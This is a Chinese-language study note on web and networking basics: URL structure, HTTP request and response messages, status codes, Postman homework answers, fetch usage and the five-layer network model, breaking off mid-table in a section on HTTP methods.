## 客户端和服务器

客户端 Client	发起通信的一方

服务器 Server	回复通信的一方

请求 Request	客户端发出消息的过程

响应 Response	服务器回复消息的过程

C/S 结构	客户端与服务器的交互模式

B/S 结构	客户端为浏览器时的 C/S 结构

服务器和客户端都是应用程序，不是计算机


对应现实

```
浏览器   → 客户端

网页程序 → 服务器

浏览器发出“我要这个页面” → 请求

服务器返回页面内容 → 响应

整套交互模式 → C/S 结构

客户端正好是浏览器 → B/S 结构
```


## 网络调试工具

服务器伪代码使用node.js


**标头（Headers）**
分两块：上半部分是**请求头**（浏览器发出的），下半部分是**响应头**（服务器返回的）。

- 请求头里能看到 `Content-Type: application/json`（来自 index.html 里 `fetch` 的 `headers` 选项）、`Cookie: sid=...`（浏览器自动带上的）
- 响应头里能看到 `Set-Cookie: sid=...; HttpOnly`（来自 server.js `getSession` 里的 `res.setHeader('Set-Cookie', ...)`）


**载荷（Payload）**
就是发出去的**请求体**，一般来自前端代码里：

```js
body: JSON.stringify({ phone: $('phone').value })
// → {"phone":"13800000000"}
```




**预览（Preview）**
服务器返回的**响应体**，被 DevTools 解析成可折叠的树形结构。截图里看到的 `{code:0, msg:"验证码已发送...", data:{sid:"04e9..."}}` 就是 server.js 里这行写进去的：




**响应（Response）**
和预览是同一份数据，只是显示原始字符串，没有格式化。




## url

要完成一次请求和响应，首先需要让客户端找到服务器，不仅如此，还要找到服务器上我们想要的资源。

在现实中，如果要找一个人，通过一个地址来找到他。

和现实生活类似，在互联网中，通过一个叫 url地址 的东西找到我们想要的资源。

url全称uniform resource locator，统一资源定位符。它是一个字符串，用于表达互联网中某个资源的位置


### 组成

```
完整的url地址组成:
协议 + 主机 + 端口 + 路径 + 参数 + hash

http://www.duyiedu.com:8888/news/2022?page=1&limit=10#main
http:// + www.duyiedu.com + :8888 + /news/2022? + page=1&limit=10 + #main
协议       主机               端口    路径          参数                hash
```




### 协议（Protocol）— 用什么语言沟通？

- `http` = 明文传输，速度快
- `https` = 加密传输，安全但有开销


### 主机（Host）— 去哪台机器？

- **IP 地址** 是机器的"身份证号"，唯一但难记（`14.215.177.39`）
- 特殊IP地址:`127.0.0.1`，它表示本机IP


### 端口（Port）— 机器上的哪个程序？

比如：

```
同一台机器:
  :80  → Web 服务器
  :3306 → MySQL 数据库
  :22   → SSH 服务
```


### 路径（Path）— 这个程序里的哪个资源？

> **问题**：进了服务器程序，它提供很多服务，要哪一个？

```
/news        → 新闻列表
/news/2022   → 2022年的新闻
/user/login  → 登录页面
```


### 参数（Query）— 同一个资源，我要定制化的内容

> **问题**：新闻列表有 1000 条，我要第 2 页，每页 10 条——但路径只能表示"资源类型"，不能表示"变体"

参数本质是**输入给服务器的额外数据**，格式是 `key=value`，多个用 `&` 连接。

```
/news?page=2&limit=10
```


### Hash — 到了页面，定位到哪里？

> **问题**：页面很长，我想直接跳到某个位置；或者单页应用不想每次都请求服务器。

**关键特性**：`#` 后面的内容**不会发送给服务器**，它只在浏览器本地生效。

```
两个用途：
1. 锚点定位：#main  → 浏览器滚动到 id="main" 的元素
2. 前端路由：#/news → SPA 框架拦截，切换视图，不请求服务器
```


### 测试

```glsl
写出下面ur1地址中每部分的值
    
http://www.duyiedu.com
协议	http://
主机	www.duyiedu.com
端口	默认 80（未明写）
路径	/（根路径）
查询参数	无
hash	无

http://news.baidu.com/guonei
协议	http://
主机	news.baidu.com
端口	默认 80（未明写）
路径	/guonei
查询参数	无
hash	无

https://baijiahao.baidu.com/s?id=1730140517646479713&wfr=spider&for=pc
协议	https://
主机	baijiahao.baidu.com
端口	默认 443（未明写）
路径	/s
查询参数	id=1730140517646479713&wfr=spider&for=pc
hash	无

2.根据下面的需求，写出url地址
本地有一个服务器应用正在运行，它监听了5500端口，在根路径下访问index.htm1可以得到首页的内容
请写出首页完整的url地址
    
http://localhost:5500/index.htm1
http://127.0.0.1:5500/index.htm1

协议：http://（本地服务，没特殊设置就是 http）
主机：localhost 或 127.0.0.1（都表示本机）
端口：5500（你的服务器监听的端口）
路径：/index.htm1（根路径下的首页文件）
```


## http

### 协议 & HTTP

url中，协议规定沟通方式

http协议规定，收发双方消息必须是“按固定格式书写的纯文本”

HTTPS = HTTP + 安全层，格式完全一致


### 请求-响应 & 无状态

通信需要明确：谁先开口、谁回应

请求响应+无状态：客户端先发送一个请求，客户端收到请求后给出一个响应，每次请求响应彼此独立，服务器不记得上一次的响应（无状态）


### 请求消息

请求消息的存在是因为服务器需要**从一段纯文本里读懂“你想干什么、给了什么数据”**

行为被拆分成三段：`请求行` / `请求头` / 空行 / `请求体`。



**请求行**：`POST /api/user/login HTTP/1.1` = 方法 + 路径 + 协议版本

方法：`GET`取 / `POST`交 / `PUT`改 / `DELETE`删；GET、DELETE 不能有请求体，POST、PUT 可以（所以 GET 传数据只能塞进 URL 参数）


关键**请求头**：`Host`、`User-Agent`、**`Content-Type`**（`application/x-www-form-urlencoded` | `application/json` | `multipart/form-data`）

`Content-Type` 就是"请求体body 用什么格式"的说明书

- application/x-www-form-urlencoded：`属性名=属性值&属性名=属性值...`
- application/json：`{"属性名":"属性值", "属性名":"属性值"}`
- multipart/form-data：使用某个随机字符串作为属性之间的分隔符，通常用于文件上传


头和体之间那个**空行**是硬规定


**请求体**：传递给服务器的正文信息


### 响应信息

客户端需要从一段纯文本里读懂：“成没成、给了什么，怎么处理”

行为被拆成三段：`响应行` / `响应头` / 空行 / `响应体`



- **响应行**：`HTTP/1.1 200 OK` = 协议版本 + 状态码 + 状态消息
- **响应头** `Content-Type` 决定**浏览器**拿到响应体怎么处理：`text/html`当网页渲染、`text/css`当样式、`image/jpeg`当图片、`attachment`触发下载……
- **响应体**：响应的主体内容


### 状态码


状态码分为五类：

| 分类    | 分类描述                    |
| :---- | :---------------------- |
| 1\*\* | 信息，服务器收到请求，需要请求者继续执行操作  |
| 2\*\* | 成功，操作被成功接收并处理           |
| 3\*\* | 重定向，需要进一步的操作以完成请求       |
| 4\*\* | 客户端错误，请求包含语法错误或无法完成请求   |
| 5\*\* | 服务器错误，服务器在处理请求的过程中发生了错误 |

通常认为，0~399 之间的状态码都是正常的，其他是不正常的

常见的状态码有：

1. 200 OK：一切正常。

2. 301 Moved Permanently：资源已被永久重定向。

   `你的请求我收到了，但是呢，你要的东西不在这个地址了，我已经永远的把它移动到了一个新的地址，麻烦你取请求新的地址，地址我放到了响应头的Location中了`

3. 302 Found：资源已被临时重定向。

   `你的请求我收到了，但是呢，你要的东西不在这个地址了，我临时的把它移动到了一个新的地址，麻烦你取请求新的地址，地址我放到了请求头的Location中了`

4. 304 Not Modified：

   `你的请求我收到了，你要的东西跟之前是一样的，没有任何的变化，所以我就不给你结果了，你自己就用以前的吧。啥？你没有缓存以前的内容，关我啥事`

5. 400 Bad Request：语义有误，当前请求无法被服务器理解。

   `你给我发的是个啥啊，我听都听不懂`

6. 403 Forbidden：服务器拒绝执行。

   `你的请求我已收到，但是我就是不给你东西`

7. 404 Not Found：资源不存在。

   `你的请求我收到了，但我没有你要的东西`

8. 500 Internal Server Error：服务器内部错误。

   `你的请求我已收到，但这道题我不会，解不出来，先睡了`


### 作业

使用 postman 向`http://www.douyutv.com`发送 GET 请求，回答下面的问题：

- 状态码是什么？表达了什么含义？
- 响应头中的 Location 的值是什么？表达了什么含义？

```
HTTP/1.1 302 Moved Temporarily
Location: https://www.douyu.com/
Content-Type: text/html
Content-Length: 138


状态码 = 302（临时重定向）
含义：3xx 这一类都是"重定向"，即"你要的东西不在这个地址，得去别处拿"。302 是临时搬家（对照 301 是永久搬家）。它就是服务器对本次请求的"表态"——不是给你内容，而是让你换个地址再来。

Location = https://www.douyu.com/
含义：Location 是专门配合 3xx 的响应头，告诉客户端新地址在哪。这里做的是 http（不安全）→ https（安全）同名跳转。浏览器/postman 拿到 302 后会自动再对这个新地址发一次请求，所以你在地址栏敲 http 最终会停在 https——那次自动请求就是被这个 Location 指挥的。
```


使用 postman 向`https://www.taobao.com`发送 GET 请求，回答下面的问题：

- 响应头中的`Content-Type`的值是什么？表达了什么含义？

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
```

- `Content-Type` = `text/html; charset=utf-8`

  含义：响应头的`Content-Type`告诉客户端"响应体是什么格式、该拿它怎么办

  - `text/html` → 这是一个 HTML 文档，浏览器应把响应体**当网页渲染**（而不是当纯文本原样显示，也不是触发下载）。
  - `charset=utf-8` → 这段 HTML 用 UTF-8 编码，浏览器据此正确解码中文，避免乱码。


## 浏览器页面处理流程



假设页面地址是 `http://localhost/index.html`

一开始发送请求 GET`http://localhost/index.html`,返回如下HTML文本

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <link rel="stylesheet" href="./css/index.css" />
  </head>
  <body>
    <h1>浏览器的页面处理流程</h1>
    
    <a href="https://www.taobao.com/">去淘宝逛一逛</a>
    <script src="./js/index.js"></script>
  </body>
</html>

```


遇到 `<link href='./css/index.css'>`→ 转换为 `http://localhost/css/index.css`→ 发请求，但解析不停（但页面不渲染，等css）

遇到 ``→ 转换为 `http://localhost/img/test.gif`→ 发请求，解析不停

遇到 `<script src='./js/index.js'>`→ 转换为 http://localhost/js/index.js→ 发请求，⚠️ 解析暂停！→ 返回index.js后并执行 → 解析继续


## AJAX

AJAX 的异步

```js
console.log('1 请求前');
fetch('http://localhost:7001/api/herolist').then(() => console.log('3 响应到了'));
console.log('2 请求后');   // 这行会先于 3 打印
// 真实输出顺序：1 → 2 → 3   ← JS 没有在 fetch 处死等
```


###  fetch 发请求（返回 Promise）

 调用 `fetch(url)` 立刻返回一个 Promise，请求在后台发出，**响应头到达时** Promise 变 fulfilled，兑现值是一个 `Response` 对象。

```js
const resp = await fetch('http://localhost:7001/api/herolist');
// GET 是默认方法，只给 URL 就行（见 demo2.html）
// 此刻 resp 是 Response 对象：响应头已到，响应体可能还没到齐
```


### 配置对象（第二个参数）

**「配置对象」存在是因为** 默认的「GET、无头、无体」满足不了登录/提交这类场景；**它的核心行为是** 给 fetch 传第二个对象参数，`method` 定方法、`headers` 定请求头、`body` 放请求体字符串。

```js
// 见 demo3.html
const resp = await fetch('http://localhost:7001/api/user/login', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' }, // 告诉服务器：我发的体是 JSON
  body: JSON.stringify({ loginId, loginPwd }),      // ← body 必须是字符串
});
```


### 读响应头 + 状态码 + 解析响应体

```js
resp.headers; // 获取响应头对象
resp.status; // 获取响应状态码，例如200
resp.statusText; // 获取响应状态码文本，例如OK
resp.json(); // 用json的格式解析即将到来的响应体，返回Promise，解析完成后得到一个对象
resp.text(); // 用纯文本的格式解析即将到来的响应体，返回Promise，解析完成后得到一个字符串
```


**「读响应头/状态」存在是因为** 解析响应体之前，得先知道「这次成没成、返回的是什么类型」；**它的核心行为是** Promise 一 fulfilled，`Response` 上的 `status / statusText / headers` 立刻可读（因为它们跟响应头一起先到）。

```js
resp.status;                        // 200
resp.statusText;                    // "OK"
resp.headers.get('Content-Type');   // "application/json"
```


resp.json() / text()

`resp.json()` 启动「边收边解析」并**返回一个新的 Promise**，`await` 它才拿到最终的 JS 对象。

```js
const resp = await fetch('http://localhost:7001/api/herolist'); // 第 1 次 await：等响应头
const data = await resp.json();                                 // 第 2 次 await：等响应体解析完
```


## 五层网络模型


### 分层思想

把一个复杂问题**纵向切成若干层**，每层只解决一个单一职责的问题，层与层之间通过**固定接口**交付结果。


"把可乐送给王富贵"是个大问题，无从下手。但拆成「装什么容器 → 怎么保温 → 怎么防偷 → 怎么找地址 → 怎么运输」之后，每个子问题都有明确答案。




### 五层网络模型

| 层             | 它回答的问题                     | 代表协议                   | 代表设备                       | 数据单位     |
| -------------- | -------------------------------- | -------------------------- | ------------------------------ | ------------ |
| **应用层**     | 跟具体应用相关的消息格式是什么？ | HTTP、FTP、DNS、SMTP、POP3 | —                              | 报文 Message |
| **传输层**     | 如何保证消息可靠传递？           | TCP、UDP                   | —                              | 段 Segment   |
| **网络层**     | 如何在**整个互联网**中找到对方？ | IP、ICMP、ARP              | 路由器                         | 包 Packet    |
| **数据链路层** | 如何在**一个子网内**找到对方？   | MAC / 以太网               | 交换机                         | 帧 Frame     |
| **物理层**     | 上面给的东西如何用**信号**表示？ | —                          | 光纤、双绞线、同轴电缆、集线器 | 比特 Bit     |


1、应用层 —— 定义"话该怎么说"

- 解决：双方约定好消息的**格式和语义**。HTTP 规定了 `GET /index.html HTTP/1.1` 这种写法，双方才能互相看懂。
- 边界：它**只管内容格式**，完全不关心这段字节怎么送到对面。


2、传输层 —— 定义"怎么把话可靠地送到"

- 解决两件事：**端口寻址**（这台机器上是给哪个进程的）+ **传输质量**。

- TCP：面向连接、可靠（确认、重传、排序、流控）→ 网页、文件传输。

- UDP：无连接、不保证送达，但快 → 视频通话、DNS 查询、直播。

  > 为什么要有两种？可靠性和实时性天然冲突，重传保证了正确却带来延迟，所以交给上层自己选。
  >
  > 面向连接：通信前双方互相确认状态，通信过程中双方同时维护一份我们聊到哪的记录，结束时正式告别
  >
  > 无连接：应用写好数据，表上目标端口，丢给网络，就不管了
  >
  > 重传：超时未确认，重新发送副本


3、网络层 —— 定义"茫茫互联网里你在哪"

- 解决：全局定位（**IP 地址**）+ 路径选择（路由）。

- 关键认知：网络层是**尽力而为**的，它不保证送到，可靠性是传输层的活儿。

- 设备：路由器 —— 跨子网转发。

  > IP 像收货地址：有层级结构（省→市→区），路由器才能"逐跳逼近"。


4、数据链路层 —— 定义"同一个局域网内的邻居是谁"

- 解决：在**一个广播域（子网）内**把数据从 A 网卡送到 B 网卡，用的是 **MAC 地址**（网卡出厂固化的物理地址）。

- 设备：交换机 —— 记录 MAC 地址表，精准转发，不广播。

  > MAC 像身份证号：全球唯一但不含位置信息，无法据此规划路线。


5、物理层 —— 定义"0 和 1 长什么样"

- 解决：**二进制 ↔ 物理信号**（电压高低、光的有无）的互转。
- 设备：集线器（Hub）—— 无脑广播给所有端口，所以它是物理层设备，**不认识 MAC**。


### 封装与解封装

封装（发送方，自上而下）：每层给上层数据**加上自己的头部**，形成新的数据块交给下层

解封装（接收方，自下而上）：每层**剥掉自己那层头部**，把剩下的交给上层。


封装过程图示：

```
"我爱你"
  ↓ 应用层加 HTTP 头        [HTTP | 我爱你]
  ↓ 传输层加 TCP 头     [TCP | HTTP | 我爱你]
  ↓ 网络层加 IP 头   [IP | TCP | HTTP | 我爱你]
  ↓ 链路层加帧头  [帧 | IP | TCP | HTTP | 我爱你]
  ↓ 物理层        ~~~ 电信号 ~~~
```




设计原因：

对等层通信原则：发送方第 N 层加的头，恰好由接收方第 N 层来读。这样每层看到的东西，和"直接跟对面同层对话"没有区别——中间各层对它是透明的。


### 四层 / 五层 / 七层



为什么有三套？

- **OSI 七层**：学术上的理想模型，理论完备，但没有真正落地。
- **TCP/IP 四层**：工业界实际实现，把链路和物理合并，简单粗暴。
- **五层**：教学折中方案 —— 保留物理/链路的区分（因为设备确实不同），但砍掉表示层和会话层。


### 场景验证

在浏览器输入 `https://www.baidu.com` 回车

| 阶段 | 发生了什么                                                   | 属于哪层             |
| ---- | ------------------------------------------------------------ | -------------------- |
| 1    | DNS 查询把域名解析成 IP `110.242.68.66`                      | 应用层（DNS 走 UDP） |
| 2    | 浏览器拼出 `GET / HTTP/1.1\r\nHost: www.baidu.com`           | 应用层               |
| 3    | 加 TCP 头：源端口 `54321`、目标端口 `443`，三次握手建连      | 传输层               |
| 4    | 加 IP 头：源 IP `192.168.1.5`、目标 IP `110.242.68.66`       | 网络层               |
| 5    | 查 ARP 得到网关 MAC，加帧头封成以太网帧                      | 数据链路层           |
| 6    | 转成电信号/光信号发出去                                      | 物理层               |
| 7    | 路由器逐跳转发：**每跳都会重新封装链路层帧头**，但 IP 头基本不变 | 网络层 ↔ 链路层      |
| 8    | 百度服务器逐层解封装，最终应用层拿到那句 `GET /`             | 全链路               |


## 请求方法


### 定义

请求行（Request Line）的第一个单词。一个 HTTP 请求报文长这样：

```
GET /search?q=http HTTP/1.1
Host: www.baidu.com
```

`GET` 就是方法，`/search?q=http` 是路径，`HTTP/1.1` 是协议版本。


```js
fetch('https://www.baidu.com', {
  method: 'heiheihei', // 告诉百度，我这次请求是来嘿嘿嘿的
});
```

上面的请求中，我们使用了自定义方法`heiheihei`。虽然百度服务器无法理解这样的请求是在干什么，但这样的请求也是可以正常发送到百度服务器的。

说明：方法**不是枚举**，协议层不做校验，它就是一段任意 token，就算是任意方法，请求**也能正常发出去**、能到达服务器，服务器"看不懂"不是协议错误，是**业务层**决定返回 `405 Method Not Allowed`


### 解决什么问题

让"同一个 URL"能表达多种操作意图。

没有方法，你就得设计 `/user/create`、`/user/delete`、`/user/update` 这种把动词塞进路径的 API。有了方法，URL 只负责**定位资源**（名词），方法负责**描述动作**（动词）：

| 意图     | 无方法设计             | 有方法设计        |
| -------- | ---------------------- | ----------------- |
| 查用户 1 | `GET /getUser?id=1`    | `GET /users/1`    |
| 删用户 1 | `GET /deleteUser?id=1` | `DELETE /users/1` |
| 改用户 1 | `GET /updateUser?id=1` | `PUT /users/1`    |

这就是 **RESTful** 的思想根基：**URL = 名词，Method = 动词**。


### 常见方法一览

| 方法    | 语义                   | 业务数据位置        | 有请求体 |
